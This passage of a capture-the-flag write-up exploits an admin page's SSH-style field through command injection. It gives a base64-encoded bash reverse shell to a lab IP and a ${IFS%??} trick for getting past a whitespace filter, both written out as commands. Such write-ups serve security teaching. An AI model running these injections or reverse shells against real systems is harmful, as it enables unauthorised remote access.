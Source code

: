 ![session hijacking](https://github.com/NTHSec/CTF-Writeups/assets/150489159/c55defb2-68d4-4d1b-aff4-f46d4f70125f)

Admin page:

![admin website](https://github.com/NTHSec/CTF-Writeups/assets/150489159/bef666f4-d549-4454-8ee6-7e2bcdddbfc6)

## Exploring the Admin Page

The only thing that I found that was remotely interesting was at the bottom of the page, where there is a functionality which pretty much acts as an ssh connection.

![ssh login](https://github.com/NTHSec/CTF-Writeups/assets/150489159/d341b6e4-6afb-41e4-a8f7-1f3a20a3c145)

After trying to submit some sample text, this was the response:

![ssh sample test](https://github.com/NTHSec/CTF-Writeups/assets/150489159/988da8ac-3a68-41f5-8dfa-00a7db295d88)

Hmmm, maybe we can do something with this functionality to give us an exploit vector?

## Exploitation with Burp Suite

After sending more sample info, I intercepted the request with burp. For the hostname I submitted the burp listener IP {127.0.0.1} with the username being kanderson.

![burp](https://github.com/NTHSec/CTF-Writeups/assets/150489159/3f29b12e-dc3b-44e0-be3a-666acf1f2dba)

In theory, we can change the username to a reverse shell bash script and we will have our shell! Of course, this is easier said than done. Here we go!

First, lets make our shell. This command writes our shell in base64. 

![base64 shell](https://github.com/NTHSec/CTF-Writeups/assets/150489159/a75255fc-bdfc-4884-beb4-2d075b9394c3)

*Note: Make sure to change to your IP and preferred port number!*

Here is our reverse shell put together {the -d decodes the base64}: 
```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40My80NDQ0IDA+JjEK" | base64 -d | bash
```

Let's try it in the username field!

![base64 shell in user](https://github.com/NTHSec/CTF-Writeups/assets/150489159/7285b29a-df3b-4f2a-839b-5ae5678b08a6)

Hmmm unfortunately, we cannot add a username with white spaces, fortunately, we can fix that by adding the `${IFS%??}` string, which is the same as a whitespace. So putting that together, we get the next iteration of our shell:

```
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40My80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

*Note: Make sure to add semicolons (;) at the beginning and end of your statement!*
